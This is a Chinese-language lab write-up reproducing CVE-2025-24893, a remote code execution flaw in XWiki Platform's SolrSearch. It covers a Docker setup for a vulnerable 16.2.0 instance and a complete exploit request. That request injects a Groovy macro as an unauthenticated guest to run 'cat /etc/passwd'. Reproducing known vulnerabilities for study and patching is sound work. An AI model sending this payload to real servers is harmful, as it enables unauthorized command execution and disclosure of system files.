



# XWiki Platform系统远程代码执行漏洞（CVE-2025-24893)

​	XWiki Platform是XWiki开源的一套用于创建Web协作应用程序的Wiki平台。

​	XWiki Platform存在安全漏洞，该漏洞源于任何来宾用户都可以通过对SolrSearch的请求，造成远程代码执行。CVE-2025-24893是针对XWiki平台SolrSearchMacros组件的远程代码执行漏洞（RCE），该漏洞源于对用户输入数据的未充分过滤，攻击者可利用Solr查询参数注入恶意代码，通过服务端模板引擎（如Velocity或Groovy）触发命令执行

项目开源地址：https://github.com/xwiki/xwiki-platform

参考链接：https://jira.xwiki.org/browse/XWIKI-22149

## 环境搭建

执行如下命令启动一个包含漏洞的xwiki-platform  16.2.0 环境：

```
docker compose up -d
```




## 漏洞复现

确保环境出现以下页面



发送

```
GET /bin/get/Main/SolrSearch?media=rss&text=%7d%7d%7d%7b%7basync%20async%3dfalse%7d%7d%7b%7bgroovy%7d%7dprintln(%22cat%20/etc/passwd%22.execute().text)%7b%7b%2fgroovy%7d%7d%7b%7b%2fasync%7d%7d%20 HTTP/1.1
Host: 192.168.76.129:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36


```

